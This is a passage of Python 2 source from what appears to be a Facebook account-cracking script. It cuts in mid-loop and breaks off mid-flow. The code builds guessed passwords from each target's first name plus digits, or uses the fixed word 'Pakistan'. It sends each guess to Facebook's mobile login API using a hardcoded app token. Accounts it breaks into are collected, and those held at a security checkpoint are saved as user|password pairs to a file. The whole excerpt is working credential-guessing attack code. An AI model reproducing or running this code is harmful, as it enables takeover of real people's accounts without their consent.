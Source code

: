 					cek = open("out/checkpoint.txt", "a")
					cek.write(user+"|"+pass1+"\n")
					cek.close()
					cekpoint.append(user+pass1)
				else:
					pass2 = b['first_name']+'12345'
					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q = json.load(data)
					if 'access_token' in q:
						print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass2
						oks.append(user+pass2)
					else:
						if 'www.facebook.com' in q["error_msg"]:
							print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass2
							cek = open("out/checkpoint.txt", "a")
							cek.write(user+"|"+pass2+"\n")
							cek.close()
							cekpoint.append(user+pass2)
						else:
							pass3 = b['first_name'] + '123'
							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
							q = json.load(data)
							if 'access_token' in q:
								print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass3
								oks.append(user+pass3)
							else:
								if 'www.facebook.com' in q["error_msg"]:
									print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass3
									cek = open("out/checkpoint.txt", "a")
									cek.write(user+"|"+pass3+"\n")
									cek.close()
									cekpoint.append(user+pass3)
								else:
									pass4 = 'Pakistan'
									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
									q = json.load(data)
									if 'access_token' in q:
										print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass4
										oks.append(user+pass4)
									else:
										if 'www.facebook.com' in q["error_msg"]:
											print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass4
											cek = open("out/checkpoint.txt", "a")
											cek.write(user+"|"+pass4+"\n")
											cek.close()
											cekpoint.append(user+pass4)
										else:
											pass5 = b['first_name'] + '12'
											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
											q = json.load(data)